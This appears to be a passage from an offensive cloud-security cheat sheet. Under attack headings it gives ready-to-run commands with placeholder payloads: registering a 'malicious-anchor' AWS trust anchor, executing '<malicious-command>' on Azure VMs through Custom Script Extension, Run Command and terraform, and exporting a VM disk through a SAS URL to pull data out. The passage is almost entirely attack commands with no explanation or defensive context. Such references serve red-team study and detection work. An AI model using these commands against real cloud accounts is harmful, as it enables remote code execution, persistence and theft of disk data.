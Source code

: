 

```
aws-shell
call trustanchormanagement register-trust-anchor --anchor-name malicious-anchor --public-key <public-key>
```



### Execute Command on Virtual Machine using Custom Script Extension


```
az vm extension set --resource-group <resource-group-name> --vm-name <vm-name> --name CustomScriptExtension --publisher Microsoft.Compute --settings '{"commandToExecute":"<malicious-command>"}'
```



```
terraform apply -var 'command_to_execute=<malicious-command>'
```


```
az vm extension set --resource-group <resource-group-name> --vm-name <vm-name> --name CustomScriptExtension --publisher Microsoft.Compute --settings '{\"commandToExecute\":\"<malicious-command>\"}' --protected-settings '{\"commandToExecute\":\"<malicious-command>\"}'
```



### Execute Commands on Virtual Machine using Run Command

```
az vm run-command invoke --resource-group <resource-group-name> --name <vm-name> --command-id RunPowerShellScript --scripts "<malicious-powershell-script>"
```


```
terraform apply -var 'command_to_execute=<malicious-shell-command>'
```


```
az vm run-command invoke --resource-group <resource-group-name> --name <vm-name> --command-id RunShellScript --scripts "<malicious-shell-script>"
```



### Export Disk Through SAS URL


```
az disk grant-access --resource-group <resource-group-name> --name <disk-name> --duration-in-seconds <duration-seconds> --access-level Read --query 'accessSas' -o tsv
```


```
$disk = Get-AzDisk -ResourceGroupName "<resource-group-name>" -DiskName "<disk-name>"
$sasToken = Grant-AzDiskAccess -DiskId $disk.Id -AccessLevel Read -DurationInSecond <duration-seconds>
$diskUrl = $disk.DiskUri + $sasToken.AccessSAS
$diskUrl
```
